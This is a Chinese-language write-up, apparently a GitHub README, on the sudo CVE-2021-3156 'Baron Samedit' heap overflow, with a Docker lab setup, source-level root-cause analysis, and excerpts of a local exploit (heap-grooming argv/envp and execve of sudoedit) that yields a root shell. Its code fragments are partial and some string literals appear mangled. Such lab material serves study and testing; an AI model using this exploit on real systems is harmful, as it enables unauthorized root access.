

# CVE-2021-3156 -- Baron Samedit

### 漏洞环境

使用Dockerfille创建镜像

```bash
docker build -t cve-2021-3156:ubuntu2004 .
```

使用镜像创建容器

```bash
docker run --rm -it cve-2021-3156:ubuntu2004 /bin/bash
```

### 漏洞成因

在 **Sudo 1.9.5p2 之前版本** 中，存在一个 **off-by-one** 错误，可能导致 **基于堆的缓冲区溢出**。  
攻击者可以通过执行：
```bash
sudoedit -s <参数以单个反斜杠 `\` 结尾>
```
在无需密码的情况下将权限提升至 root。 

以sudo1.8.31p1版本sudo源码为例，在执行`sudoedit -s`时，如果存在转义字符`\`输入的情况下，会首先调用`parse_args.c`中的`parse_args`函数对命令中的进行转义操作。下面这部分代码将对输入的特殊字符进行转义处理。

```c
	    for (av = argv; *av != NULL; av++) {
		for (src = *av; *src != '\0'; src++) {
		    /* quote potential meta characters */
		    if (!isalnum((unsigned char)*src) && *src != '_' && *src != '-' && *src != '$')
			*dst++ = '\\';
		    *dst++ = *src;
		}
		*dst++ = ' ';
	    }
```
接下来，程序在将外部输入的参数保存在内存的堆或栈空间之前，会调用`sudoers.c`文件中的`set_cmnd`函数把命令行参数复制到堆内存，其中需要将利用下面代码去除所有的转义字符`\`。

```c
	for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
		    while (*from) {
			if (from[0] == '\\' && !isspace((unsigned char)from[1]))
			    from++;
			*to++ = *from++;
		    }
		    *to++ = ' ';
		}
```
**问题在于：** 当 `parse_args` 未对参数转义时（即未插入额外的 `\`），程序后续仍然也会进入到`set_cmnd`函数中消除转义，但是由于没有对输入的`\`进行转义操作，导致进入`set_cnmd`函数后满足了if的判断条件，跳过`\`，并拷贝`\`后续的参数进入`user_args`当中，此时如果拷贝内容过长则会出现堆溢出。


### 漏洞利用

#### 漏洞利用过程

### **EXP解析**

exp由两部分组成：`exploit.c` 和 `shellcode.c`，其中 `exploit.c` 负责构造 `argv` 和 `envp` 以及通过 `execve` 调用 `sudoedit`，并通过堆溢出进行漏洞利用。

- 在 `exploit.c` 中，程序通过构造大小为 `0xf0` 的缓冲区 (`buf`) 来精确控制堆布局，利用缓冲区溢出覆盖关键结构体。溢出的大小由 `buf` 的填充 (`'Y'` 和 `\`) 来控制，之后通过 `execve` 调用 `sudoedit` 来触发漏洞。

```c
	char buf[0xf0] = {0};
	memset(buf, 'Y', 0xe0);
	strcat(buf, "\");

	char* argv[] = {
		"sudoedit",
		"-s",
		buf,
		NULL};
```

- 使用 `LC_*` 环境变量进行堆调整。通过这些环境变量的布局，目标结构体 `service_user` 被分配到溢出路径中。溢出的数据通过 `overflow` 环境变量进行传递，并覆盖 `service_user` 结构的字段。

```c
	char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
	memset(messages + strlen(messages), 'A', 0xb8);

	char overflow[0x500] = {0};
	memset(overflow, 'X', 0x4cf);
	strcat(overflow, "\");
```

- 通过构造的 `envp` 数组，将溢出数据传递给 `sudoedit`，从而覆盖目标结构并实现漏洞利用。

```c
	char* envp[] = {
		overflow,
		"\", "\", "\", "\", "\", "\", "\", "\",
		"XXXXXXX\",
		// 省略部分内容
		NULL};
```

- 最终通过 `execve` 调用触发 `sudoedit` 的执行。

```c
	execve("/usr/bin/sudoedit", argv, envp);
```

---

### **漏洞利用执行**

在 Ubuntu 20.04 上测试，针对 sudo 1.8.31

可以通过以下命令检查你的 sudo 版本是否存在漏洞：
```csharp
$ sudoedit -s Y
```
如果提示输入密码，则说明很可能存在漏洞；如果打印出使用信息，则说明该版本没有漏洞。

可以通过以下命令将 Ubuntu 20.04 上的 sudo 降级到易受攻击的版本以进行测试：
```bash
$ sudo apt install sudo=1.8.31-1ubuntu1
```

使用方法
执行 make 编译并执行漏洞利用：

```bash
$ make
$ ./exploit
```

#### 漏洞利用结果

成功利用漏洞后，获得了一个交互式的 root shell，能够执行特权操作。




#### 防护机制绕过
- RELRO
- NX
- ASLR
- PIE
- AppArmor / SELinux
- Stack Canaries
